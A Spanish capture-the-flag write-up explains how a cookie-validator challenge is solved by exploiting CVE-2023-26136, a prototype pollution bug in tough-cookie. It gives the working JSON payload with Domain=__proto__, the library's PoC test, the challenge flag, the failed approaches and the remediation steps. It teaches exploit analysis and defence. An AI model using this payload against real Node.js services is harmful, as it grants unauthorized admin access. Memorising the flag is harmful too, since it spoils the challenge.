





# Desafío 55 - Cookie envenenada

**Plataforma:** HackLab (SoftwareSeguro)

**Edición:** HackingDay 2026

**Categoría:** CVE

**Herramientas:** Burp Suite (Repeater, Intruder, Turbo Intruder), DevTools del navegador, Webhook.site

## Enunciado

> **CookieLab** publicó un "validador de cookies": pegás tus cookies crudas y el servicio te dice cuáles quedarían guardadas en su jar. Suena inofensivo... pero el panel de administración (`/admin`) empezó a abrirse solo para algunos visitantes, sin que nadie les diera permisos.
>
> Tu objetivo es entrar a `/admin` y llevarte la flag.



La raíz documenta dos endpoints:

```
POST /cookies/import
  Content-Type: application/json
  body: { "cookies": ["nombre=valor; Domain=...; Path=..."], "url": "http://..." }

GET  /admin
  Panel de administracion. Requiere permisos sobre la ruta solicitada.
```

Y `/admin`, sin más, responde 403:



```json
{"error":"Acceso denegado: no tenés permisos sobre /admin"}
```

## Reconocimiento del validador

El endpoint `POST /cookies/import` recibe un array `cookies` (cada elemento es una cookie cruda estilo `Set-Cookie`) y un campo `url`, y devuelve en `stored` las cookies que "quedarían guardadas". Probando distintas entradas se perfila el comportamiento del parser:

| Enviado (`cookies`) | Devuelto (`stored`) |
| :--- | :--- |
| `x=1` | `x=1; Path=/` |
| `role=user=admin` | `role=user=admin; Path=/` |
| `a=1;; b=2` | `a=1; Path=/; b=2` |
| `foo=bar; Expires=Wed; admin=true; Domain=softwareseguro.com.ar` | `foo=bar; Domain=softwareseguro.com.ar; Path=/; admin=true` |
| `x=1` con `\r\n` en el string | *(error, `stored` vacío)* |
| cookie con dos `Domain=` | *(error, `stored` vacío)* |

De aquí se deduce que el parser:

- Reconstruye la cookie en un **orden canónico fijo**: `<par>; [Domain=...;] Path=...; [pares no reconocidos]`.
- Reconoce los **atributos de cookie estándar** (`Domain`, `Path`, `Expires`, `Secure`, `HttpOnly`, `SameSite`) y los reproduce en su posición canónica (los flags sin valor, como `Secure`/`HttpOnly`, se conservan como tales). Un `Expires` con fecha inválida (`Expires=Wed`) se descarta por malformado. En cambio, **preserva como par cualquier clave que no reconoce** (`admin=true` sobrevive al final). Por ejemplo, `foo=bar; Secure; HttpOnly; SameSite=Lax; admin=true` vuelve como `foo=bar; Domain=...; Path=/; Secure; HttpOnly; SameSite=Lax; admin=true`.
- Inyecta `Path=/` por defecto cuando no se especifica.
- Se rompe ante entradas malformadas (saltos de línea, atributos duplicados).

### Validación del `Domain`

Fuzzeando el atributo `Domain` (con el `url` fijo apuntando al host del reto) se observa qué dominios acepta (`stored` con contenido) y cuáles rechaza (`stored` vacío):

| `Domain` | ¿Aceptado? |
| :--- | :---: |
| `softwareseguro.com.ar` | ✅ |
| `.softwareseguro.com.ar` | ✅ |
| `chl-...-cookie-envenenada.softwareseguro.com.ar` (host exacto) | ✅ |
| `com.ar` | ✅ |
| `evil.softwareseguro.com.ar` | ❌ |
| `softwareseguro.com.ar.evil.com` | ❌ |
| `notsoftwareseguro.com.ar` | ❌ |
| `softwareseguro.com.ar.` | ❌ |

El `Domain` se valida como **sufijo de dominio real del host**, cortando por puntos (matching estilo RFC 6265). Los trucos ingenuos (`includes`/`endsWith`, `evil.com` conteniendo la cadena legítima) se rechazan. El dato llamativo: **acepta `com.ar`**, que es un *public suffix* y normalmente se rechazaría. Esa es la primera huella de la configuración vulnerable (ver más abajo).

> **¿Qué es RFC 6265?** Es el documento que estandariza cómo funcionan las cookies HTTP: cómo se escriben (`Set-Cookie`), cómo se guardan en el navegador y, sobre todo, **cuándo una cookie guardada debe enviarse a una URL dada**. Es la norma de referencia que implementan las librerías de cookies (`tough-cookie` entre ellas). Define, entre otras, las reglas de *domain-match* y *path-match* que se usan acá.

> **¿Qué es el "domain-match"?** Es la regla (de RFC 6265) que decide si una cookie corresponde a un sitio. Una cookie con `Domain=softwareseguro.com.ar` solo se aplica a ese dominio y a lo que cuelgue de él **separado por un punto** (`algo.softwareseguro.com.ar`). No alcanza con que el texto del host contenga esa cadena: `evilsoftwareseguro.com.ar` se rechaza (está pegado, sin punto), igual que `softwareseguro.com.ar.evil.com`. Por eso el dominio padre `softwareseguro.com.ar` se acepta, pero ningún dominio atacante — y por eso descartamos falsificar el `Domain`.

> **¿Qué es un public suffix?** Un dominio bajo el cual cualquiera puede registrar el suyo (`com`, `com.ar`, `github.io`). Como personas distintas registran nombres independientes bajo él, las librerías de cookies **rechazan** que una cookie fije su `Domain` en un public suffix: si no, sería una cookie compartida entre sitios de dueños distintos (una "supercookie" que `com.ar` enviaría a todos los `.com.ar`). Que este servidor **acepte** `Domain=com.ar` revela que esa protección está apagada (`rejectPublicSuffixes: false`), que es justamente la condición que el CVE necesita.

## De "parser casero" a librería conocida

El giro del desafío es dejar de modelar `/cookies/import` como lógica a medida y reconocer que ese comportamiento **es el de una librería estándar**. Las señales que lo indican:

1. **El enunciado usa la palabra "jar"** literalmente ("quedarían guardadas en su jar"). En Node.js, "cookie **jar**" es un concepto técnico concreto: el almacén de cookies con reglas de `Domain`/`Path`.
2. **El header de respuesta `X-Powered-By: Express`** → stack Node.js / npm, donde las dependencias con CVE son habituales.
3. **El parser es demasiado estándar para ser casero**: reordenar atributos a forma canónica, inyectar `Path=/`, descartar `Expires`, mantener domain-matching por sufijo. Eso no se escribe a mano para un reto; se obtiene usando una librería de cookie-jar.

La librería de referencia para "RFC6265 Cookies **and CookieJar** for Node.js" es **`tough-cookie`**. El `POST /cookies/import` es, por dentro, una llamada a `jar.setCookie(cookieString, url)`: el array `cookies` son los strings y el campo `url` es el segundo argumento.

Buscando CVEs de esa librería se llega a **CVE-2023-26136**.

## CVE-2023-26136 — Prototype Pollution en `tough-cookie`

- **Afecta:** `tough-cookie` < 4.1.3.
- **Condición:** el `CookieJar` corre en modo **`rejectPublicSuffixes: false`**.
- **Causa raíz:** el *memstore* del jar indexa las cookies en un objeto literal (`{}`) en vez de `Object.create(null)`. La estructura interna es `idx[domain][path][name] = cookie`. Si una cookie usa `Domain=__proto__`, acceder a `idx["__proto__"]` **no crea una entrada nueva: devuelve `Object.prototype`**. El motor escribe entonces el nivel siguiente —el `Path`— como clave *sobre* `Object.prototype`: una cookie con `Path=/admin` crea `Object.prototype["/admin"]`, contaminando el prototipo global.

La huella de `rejectPublicSuffixes: false` ya la habíamos visto: es lo que explica que el validador **acepte `Domain=com.ar`** (un public suffix que, con la configuración segura, se rechazaría).

### El PoC oficial

El test del fix (`test/cookie_jar_test.js`) documenta el exploit:

```javascript
const jar = new tough.CookieJar(undefined, { rejectPublicSuffixes: false });
// try to pollute the prototype
jar.setCookieSync(
  "Slonser=polluted; Domain=__proto__; Path=/notauth",
  "https://__proto__/admin"
);
```

El detalle clave: **`__proto__` aparece en dos lugares a la vez** — en el `Domain` de la cookie **y en el host del `url`** (`https://__proto__/...`). Eso es lo que hace que el *domain-match* (`__proto__` == `__proto__`) pase el filtro y la escritura llegue al memstore vulnerable. Como se vio arriba, es el **`Path`** el que termina siendo la clave contaminada en `Object.prototype`: con `Path=/notauth`, `pollutedObject["/notauth"]` queda definido para todo objeto.

## Explotación

Traduciendo el PoC al formato del endpoint (array `cookies` = strings de `setCookie`; `url` = segundo argumento), y usando `Path=/admin` para contaminar justamente la clave que el panel evalúa:

```json
{"cookies":["Slonser=polluted; Domain=__proto__; Path=/admin"],"url":"https://__proto__/admin"}
```



El `stored` sale **no vacío** (el `Domain=__proto__` fue aceptado porque el `url` también es `__proto__`), confirmando que el vector entró:



```json
{"stored":["Slonser=polluted; Domain=__proto__; Path=/admin"],"message":"Listo. Estas son las cookies que quedarian guardadas."}
```

Acto seguido, un simple `GET /admin` (sin ninguna cookie especial en la request) ya devuelve la flag:



## Flag

```
af41d36d3f3eca7f62a8d17e628e0f7a
```

## Por qué funciona el payload (y qué es prototype pollution)

### La cadena de prototipos

En JavaScript, casi todo objeto hereda de un padre compartido: `Object.prototype`. `const obj = {}` apunta a `Object.prototype` como prototipo, y **ese prototipo es el mismo objeto en memoria para todos**, no una copia por objeto.

Cuando se lee `obj["/admin"]`, el motor busca:

1. ¿`obj` tiene una propiedad **propia** `/admin`? → si sí, la devuelve.
2. Si no → sube al **prototipo** (`Object.prototype`) y busca ahí.
3. Si tampoco → `undefined`.

El paso 2 consulta un objeto **compartido por todos los objetos del proceso**.

### El ataque

El bug permite escribir `Object.prototype["/admin"] = <algo truthy>`. A partir de ahí, un objeto vacío responde distinto **sin haber sido modificado**:

```javascript
const permisos = {};       // objeto vacío, SIN propiedades propias
permisos["/admin"]         // propia: no → prototipo: ¡SÍ ahora! → devuelve algo truthy
```

`permisos` sigue siendo `{}`; lo que cambió es su padre compartido. Como ese padre lo comparten **todos** los objetos, todos "heredan" la clave `/admin`.

### Aplicado al reto

El código de `/admin` evalúa algo equivalente a lo siguiente (reconstrucción hipotética: no tenemos el fuente del servidor, pero el comportamiento observado encaja con este patrón):

```javascript
const permisos = construirPermisos(req);   // devuelve {} u objeto normal
if (permisos["/admin"]) { /* flag */ } else { /* 403 */ }
```

- **Antes:** `permisos["/admin"]` → propia no, prototipo no → `undefined` → **403**.
- **Después del payload:** `Object.prototype["/admin"]` quedó contaminado → el lookup lo hereda → truthy → **flag**.

Esto explica la frase del enunciado *"se abre solo para algunos visitantes, sin que nadie les diera permisos"*: la contaminación es **global y persistente en el proceso Node**. Una vez disparada, cualquier request que construya un objeto y consulte `["/admin"]` hereda el permiso, hasta que el servidor se reinicie.

### El fix

El parche de `tough-cookie` cambió `idx = {}` por `idx = Object.create(null)`: un objeto **sin prototipo**. Así `idx["__proto__"]` es una clave normal, no un atajo a `Object.prototype`, y el ataque no tiene dónde escribir.

## Enfoques descartados (y por qué)

El camino hasta el CVE pasó por descartar, con evidencia, varias hipótesis razonables. Documentarlas ahorra tiempo en retos parecidos:

| Hipótesis | Prueba | Por qué se descartó |
| :--- | :--- | :--- |
| `/admin` lee una cookie de permiso del header `Cookie` | Enviar `admin=true`, `role=admin`, `perms=/admin`, etc., y fuzzear ~300 nombres/valores con Turbo Intruder | Respuesta 403 idéntica siempre (mismo `Etag`). El endpoint **ignora** el header `Cookie`. |
| El import guarda estado (jar persistente por IP/sesión) | Importar `aaa=...` y luego `bbb=...`: el segundo `stored` trae **solo** `bbb` | El import es una **función pura**, no acumula. |
| El servidor visita el `url` (SSRF / server-side fetch) | Poner `url` apuntando a un Webhook.site | **Nunca llegó** ninguna request: el `url` no se visita. |
| El `url` filtra el `stored` por path | Mandar las mismas cookies cambiando solo `url` (`/admin`, `/otra`, `/`) | `stored` **idéntico** en los tres casos: el `url` es decorativo para el filtrado (pero crítico para el domain-match, como se vio después). |
| Hay rutas/endpoints ocultos | Fuzzing de rutas (`/cookies/jar`, `/flag`, `/debug`, `/api`, ...) | Todo 404. |
| `/admin` acepta otros métodos | `OPTIONS /admin` | `Allow: GET, HEAD`. Sin POST/PUT que explotar. |
| El `Domain` se puede falsificar con un dominio atacante | Fuzzing de `Domain` (`evil.com`, `notsoftwareseguro.com.ar`, `softwareseguro.com.ar.evil.com`) | Todos rechazados: el domain-matching por sufijo está **bien implementado**. |
| PoC estándar `Domain=__proto__` con `url` al host real | `{"cookies":["...; Domain=__proto__; ..."],"url":"https://<host-real>/..."}` | `stored` vacío: el filtro rechaza `__proto__` porque **no hace match** con el host real. **Faltaba poner `__proto__` también en el `url`.** |

La clave metodológica: la combinación *stack identificable (`Express` + "jar") + comportamiento de librería estándar + un vector que no cede al fuzzing lógico* es la señal para **buscar un CVE de dependencia temprano**, en lugar de seguir modelando la lógica como si fuera a medida.

## 🛡️ Remediación (Developer Perspective)

- **Actualizar la dependencia:** `tough-cookie >= 4.1.3`, que inicializa el memstore con `Object.create(null)` y bloquea el vector.
- **No usar `rejectPublicSuffixes: false`** salvo necesidad real; es el modo que habilita el bug (y el que permitía aceptar `Domain=com.ar`).
- **No parsear cookies de terceros con el jar del servidor** sin aislar: el validador exponía directamente `jar.setCookie(input, url)` sobre entrada no confiable.
- **Defensa en profundidad contra prototype pollution:** crear los objetos de datos sensibles (permisos, configuración) con `Object.create(null)`; validar claves contra `__proto__`, `constructor`, `prototype`; usar `Map` en vez de objetos como diccionarios; y congelar el prototipo (`Object.freeze(Object.prototype)`) donde sea viable.
- **No basar autorización en la mera presencia de una propiedad** heredable de un objeto plano: usar `Object.hasOwn(permisos, ruta)` en vez de `if (permisos[ruta])`.

## Referencias

- [CVE-2023-26136 — NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-26136)
- [GHSA-72xf-g2v4-qvf3 — GitHub Advisory Database](https://github.com/advisories/GHSA-72xf-g2v4-qvf3)
- [salesforce/tough-cookie — repositorio](https://github.com/salesforce/tough-cookie)
